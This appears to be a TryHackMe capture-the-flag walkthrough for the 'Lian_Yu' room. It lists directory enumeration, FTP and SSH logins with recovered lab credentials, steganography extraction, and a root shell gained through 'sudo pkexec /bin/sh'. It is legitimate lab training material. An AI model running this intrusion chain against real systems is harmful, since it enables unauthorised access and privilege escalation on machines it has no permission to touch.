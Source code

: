 # Lian\_Yu

**Room Link:** [https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island/2100 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>



**Link:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>



## FTP

```
ftp $VICTIM
Username: vigilante
Password: !#th3h00d
mget *
```



**Kali**

```
exiftool Leave_me_alone.png 
sudo apt install ncurses-hexedit
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

Change the first hex values to **89 50 4E 47 0D 0A** to make it .PNG then save the file

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool Leave_me_alone.png
```

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide info aa.jpg
Password: password
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf aa.jpg
Password: password
unzip ss.zip 
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh slade@$VICTIM
Password: M3tahuman
```



## Privilege Escalation

**Victim**

```
sudo -l
```



<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo pkexec /bin/sh
```

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>























